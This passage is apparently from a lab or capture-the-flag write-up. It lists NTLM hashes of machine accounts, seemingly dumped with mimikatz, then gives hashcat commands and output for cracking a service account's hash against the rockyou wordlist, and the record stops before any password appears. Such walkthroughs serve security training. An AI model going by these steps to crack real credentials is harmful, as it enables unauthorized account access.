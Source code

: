     RID  : 00000455 (1109)
    User : DESKTOP-2$
    LM   :
    NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

    RID  : 00000456 (1110)
    User : DESKTOP-1$
    LM   :
    NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
    ```

Let us start by cracking the SQLService: `hashcat -m 1000 f4ab68f27303bcb4024650d8fc5f973a /usr/share/wordlists/rockyou.txt`

hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt


??? output "mimikatz"
    ```txt
    fab1@kali:~$ hashcat -m 1000 f4ab68f27303bcb4024650d8fc5f973a /usr/share/wordlists/rockyou.txt
    hashcat (v6.1.1) starting...

    OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
    =============================================================================================================================
    * Device #1: pthread-Intel(R) Xeon(R) Platinum 8171M CPU @ 2.60GHz, 13896/13960 MB (4096 MB allocatable), 4MCU

    Minimum password length supported by kernel: 0
    Maximum password length supported by kernel: 256

    Hashes: 1 digests; 1 unique digests, 1 unique salts
    Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
    Rules: 1

    Applicable optimizers applied:
    * Zero-Byte
    * Early-Skip
    * Not-Salted
    * Not-Iterated
    * Single-Hash
    * Single-Salt
    * Raw-Hash

    ATTENTION! Pure (unoptimized) backend kernels selected.
    Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
    If you want to switch to optimized backend kernels, append -O to your commandline.
    See the above message to find out about the exact limits.

    Watchdog: Hardware monitoring interface not found on your system.
    Watchdog: Temperature abort trigger disabled.

    Host memory required for this attack: 65 MB

    Dictionary cache built:
    * Filename..: /usr/share/wordlists/rockyou.txt
    * Passwords.: 14344392
    * Bytes.....: 139921507
    * Keyspace..: 14344385
    * Runtime...: 2 secs
